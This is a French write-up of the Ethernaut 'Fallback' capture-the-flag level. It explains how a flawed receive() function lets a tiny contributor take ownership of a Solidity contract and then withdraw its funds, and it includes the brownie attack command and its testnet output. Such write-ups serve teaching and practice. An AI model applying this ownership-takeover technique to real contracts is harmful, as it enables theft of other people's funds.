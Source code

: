 # Fallback

## Objectifs
Les objectifs de ce niveau sont:
1- devenir le owner du contrat
2- réduire la balance du contrat à 0

La méthode [withdraw](contracts/fallback.sol#L37) utilise le `modifier` `onlyOwner`, nous devons donc passer `owner` avant de pouvoir réduire la balance du contrat à 0.

## Devenir owner

Le contrat donne la possibilité de devenir `owner` avec les méthodes suivantes:
- [`contribute`](contracts/fallback.sol#L29)
- [`receive`](contracts/fallback.sol#L43)

Lors de la création du contrat, la contribution du `owner` est de [`1000 ether`](contracts/fallback.sol#L14)
```solidity
constructor() public {
  owner = msg.sender;
  contributions[msg.sender] = 1000 * (1 ether);
}
```
Pour devenir `owner` via la méthode `contribute`, il est nécessaire de fournir une contribution plus importante que celle du `owner` mais cette méthode limite le `msg.value` à `0.001 ether`:
```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```

Pour devenir `owner` via la méthode `receive`, il faut que la contribution soit supérieure à 0 et qu'il y ait de la valeur associé à cet appel:
```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```

Afin de devenir `owner`, il faut appeller la méthode `contribute` avec un `msg.value` < `0.001 ether` ce qui permet d'avoir une contribution > 0.
Ensuite en envoyant des fonds à l'adresse du contrat, la méthode `receive` va être appellée et ainsi nous devenons `owner` du contrat.

## Récupération des fonds du contrat
Une fois que nous sommes owner, nous pouvons appeller la méthode `withdraw` qui nous permet de récupérer la totalité des fonds du contrat

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `goerli`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x6F9cf195B9B4c1259E8FCe5b4e30F7142f779DeA) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run attack main "0x3F1A2CFFDC74EB36e0B529f9b2462a6c1D94FDCA" --network goerli
```
```console
Brownie v1.19.0 - Python development framework for Ethereum

FallbackProject is the active project.

Running 'scripts/attack.py::main'...
Transaction sent: 0xb546c7c85b8513fe46a7a819b4b269a0004f5d23191c627db8b232e2217634f0
  Gas price: 5.465819587 gwei   Gas limit: 52501   Nonce: 12
  Transaction confirmed   Block: 7828039   Gas used: 47729 (90.91%)

Transaction sent: 0xef990ff3dac0e346ddf6faa534447d3204826a3e0af1a6b208831b708704d575
  Gas price: 4.781299 gwei   Gas limit: 31132   Nonce: 13
  Transaction confirmed   Block: 7828070   Gas used: 28302 (90.91%)

Owner is hacker: True
Transaction sent: 0x4ceeca8811a63bfb30fa03c6cb5bbe0ef6424f9aa491067b2ce262eb2f90858b
  Gas price: 4.69966451 gwei   Gas limit: 35880   Nonce: 14
  Transaction confirmed   Block: 7828103   Gas used: 30364 (84.63%)

Final contract balance: 1500000000000000
```




